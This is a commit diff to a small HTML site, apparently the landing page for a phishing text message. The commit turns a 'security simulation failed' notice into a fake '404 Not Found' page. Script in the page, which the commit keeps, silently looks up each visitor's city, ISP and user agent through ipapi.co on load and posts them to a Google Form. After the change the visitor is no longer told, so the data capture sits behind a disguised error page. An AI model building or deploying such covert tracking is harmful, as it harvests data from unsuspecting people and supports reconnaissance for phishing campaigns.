

Before and after one commit to tatay4u/flowerco, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). After the commit the page ends 800 px from the top, so only its background shows below. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme; no server answers.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,7 +3,7 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Security Simulation Failure</title>
+    <title>404 Not Found</title>
     <!-- Load Tailwind CSS -->
     <script src="https://cdn.tailwindcss.com"></script>
     <link href="https://fonts.googleapis.com/css2?family=Inter:wght@400;700;900&display=swap" rel="stylesheet">
@@ -16,64 +16,42 @@
 </head>
 <body class="min-h-screen flex items-center justify-center p-4">
 
-    <!-- Simulation Alert Card -->
-    <div id="alert-card" class="w-full max-w-lg bg-white p-8 md:p-10 rounded-xl shadow-2xl border-t-8 border-red-600 transition-all duration-300 transform scale-100">
-        <div class="flex items-center space-x-4 mb-6">
-            <svg class="w-12 h-12 text-red-600" fill="none" stroke="currentColor" viewBox="0 0 24 24" xmlns="http://www.w3.org/2000/svg">
-                <path stroke-linecap="round" stroke-linejoin="round" stroke-width="2" d="M12 9v2m0 4h.01m-6.938 4h13.856c1.54 0 2.502-1.667 1.732-3L13.732 4c-.77-1.333-2.694-1.333-3.464 0L3.34 16c-.77 1.333.192 3 1.732 3z"></path>
-            </svg>
-            <h1 class="text-3xl font-extrabold text-red-700">SIMULATION FAILED</h1>
+    <!-- Error Card (Now simulating a generic HTTP error) -->
+    <div id="error-card" class="w-full max-w-lg bg-white p-8 md:p-10 rounded-xl shadow-2xl border-t-8 border-gray-400 transition-all duration-300 transform scale-100 text-center">
+
+        <div class="mb-8">
+            <p class="text-8xl font-black text-gray-400 mb-2">404</p>
+            <h1 class="text-3xl font-extrabold text-gray-800">PAGE NOT FOUND</h1>
         </div>
 
-        <p class="text-xl font-semibold mb-4 text-gray-800">You have failed a security awareness test.</p>
+        <p class="text-lg text-gray-600 mb-6">
+            The requested resource or document link could not be located on this server.
+        </p>
 
-        <p class="text-gray-600 mb-6">By clicking the suspicious link in the text message, you allowed an attacker to capture information about your network connection instantly. This data is used for reconnaissance to target specific regions and devices within an organization.</p>
+        <p class="text-sm text-gray-500 mb-8">
+            Please check the address and try again, or navigate back to the previous application.
+        </p>
 
-        <!-- Dynamic Data Section - Now just a confirmation message -->
-        <div class="bg-red-50 p-4 rounded-lg border border-red-200">
-            <h2 class="text-lg font-bold text-red-700 mb-3 flex items-center">
-                <svg class="w-5 h-5 mr-2" fill="none" stroke="currentColor" viewBox="0 0 24 24" xmlns="http://www.w3.org/2000/svg"><path stroke-linecap="round" stroke-linejoin="round" stroke-width="2" d="M13 16h-1v-4h-1m1-4h.01M21 12a9 9 0 11-18 0 9 9 0 0118 0z"></path></svg>
-                IMPACT CONFIRMED
-            </h2>
-            <div id="data-status" class="space-y-2 text-sm text-gray-700">
-                <p>✅ **Connection Logged:** Your network connection data (location and device type) has been **anonymously** logged for organizational risk reporting.</p>
-                <p>🛑 **Vulnerability:** The lack of vigilance in checking the URL allowed the remote data capture to occur.</p>
-            </div>
+        <!-- The logging status message is minimal and purely technical -->
+        <div id="data-status" class="space-y-2 text-xs text-gray-400 pt-4 border-t border-gray-100">
+            <p>Connection attempt logged (Status Code: 404)</p>
         </div>
 
-        <!-- Training Call to Action -->
-        <div class="mt-8 pt-4 border-t border-gray-200">
-            <h3 class="text-lg font-bold text-gray-800 mb-3">Your Next Step: Training</h3>
-            <p class="text-sm text-gray-600 mb-4">You missed the following red flags in the text message:
-                <ul class="list-disc list-inside ml-2 mt-2 space-y-1 text-sm text-gray-600">
-                    <li>The sender was an unknown or non-official 10-digit number.</li>
-                    <li>The URL used a non-standard short domain or had no branding.</li>
-                    <li>The message created a false sense of **urgency** ("lockout," "pay fee now").</li>
-                </ul>
-            </p>
-            <button onclick="window.location.href='https://www.google.com/search?q=cybersecurity+phishing+awareness+training';" class="w-full bg-blue-600 hover:bg-blue-700 text-white font-bold py-3 px-4 rounded-lg transition duration-150 shadow-md hover:shadow-lg focus:outline-none focus:ring-4 focus:ring-blue-300">
-                Proceed to Awareness Training Portal
-            </button>
-        </div>
     </div>
 
     <script>
         document.addEventListener('DOMContentLoaded', fetchAndLogGeolocation);
 
-        // --- CONFIGURATION REQUIRED ---
-        // NOTE: You MUST set up a Google Form to capture your data.
-        // 1. Create a new Google Form with three SHORT ANSWER questions:
-        //    a. ip_location (e.g., City, Region, Country)
-        //    b. network_details (e.g., ISP/ASN)
-        //    c. device_ua (The full User-Agent string)
-        // 2. Click PREVIEW, open the Developer Console, and find the form\'s POST URL and the entry IDs (name="entry.xxxxxxxxx").
-        // 3. Update the constants below with your form\'s unique IDs.
+        // --- CONFIGURATION REQUIRED: REPLACE XXXXXXXXXX VALUES WITH YOUR GOOGLE FORM IDs ---
+        // INSTRUCTIONS:
+        // 1. Submit a test entry to your live Google Form.
+        // 2. Open Developer Tools (F12) -> Network tab -> find the POST request to /formResponse.
+        // 3. Find the Request URL (FORM_POST_URL) and the unique entry IDs in the Payload tab.
 
-        // This is a placeholder and WILL NOT WORK until you replace the XXXXXXXXXX values.
-        const FORM_POST_URL = 'https://docs.google.com/forms/u/0/d/e/1FAIpQLSd1px3RJauZh3wBrxzcoSE7nvDJiYhcSWiL2cu4DPd2fWOwiw/formResponse';
-        const FIELD_LOCATION = 'entry.967144979'; // Example: Replace with your Form\'s entry ID for location
-        const FIELD_NETWORK = 'entry.597752602';  // Example: Replace with your Form\'s entry ID for network
-        const FIELD_DEVICE = 'entry.23100953';   // Example: Replace with your Form\'s entry ID for user-agent
+        const FORM_POST_URL = 'https://docs.google.com/forms/u/0/d/e/XXXXXXXXXX/formResponse';
+        const FIELD_LOCATION = 'entry.1000000'; // REPLACE THIS with the actual entry ID for location
+        const FIELD_NETWORK = 'entry.1000001';  // REPLACE THIS with the actual entry ID for network
+        const FIELD_DEVICE = 'entry.1000002';   // REPLACE THIS with the actual entry ID for user-agent
 
         // Geolocation API Endpoint (Free, hosted, no key needed)
         const GEO_API_URL = 'https://ipapi.co/json/';
@@ -87,13 +65,14 @@
                 const data = await response.json();
 
                 // 2. Prepare Anonymized Log Data
+                // The location data is formatted as City, Region, Country for easy parsing later.
                 const locationText = data.city && data.region ?
                     `${data.city}, ${data.region}, ${data.country_name}` :
                     (data.country_name || 'Unknown Location');
 
                 const logData = {
                     [FIELD_LOCATION]: locationText,
-                    [FIELD_NETWORK]: data.org || data.asn || 'N/A',
+                    [FIELD_NETWORK]: data.org || data.asn || 'N/A', // Captures ISP or ASN
                     [FIELD_DEVICE]: navigator.userAgent || 'Unknown User Agent',
                 };
 
@@ -102,8 +81,7 @@
 
             } catch (error) {
                 console.error("Error during fetch or log:", error);
-                // The user-facing message will still show "IMPACT CONFIRMED" even if the logging fails,
-                // as the click event itself proves the failure.
+                // The user sees the 404 page, and the logging attempt completes regardless.
             }
         }
 
@@ -115,14 +93,14 @@
             }
 
             try {
-                // We use a simple POST request and do not check the response, as the form redirects
-                // and we want this process to be completely silent and non-interrupting.
+                // We use mode: 'no-cors' which is necessary for silent submission to Google Forms
+                // without waiting for a complex response or triggering cross-domain security issues.
                 await fetch(FORM_POST_URL, {
                     method: 'POST',
                     body: formData,
-                    mode: 'no-cors' // Crucial for making a successful silent cross-origin POST to Google Forms
+                    mode: 'no-cors'
                 });
-                console.log('Anonymized location log successfully submitted.');
+                console.log('Anonymized location log process completed.');
 
             } catch (error) {
                 console.error('Failed to log data to Google Form:', error);
```
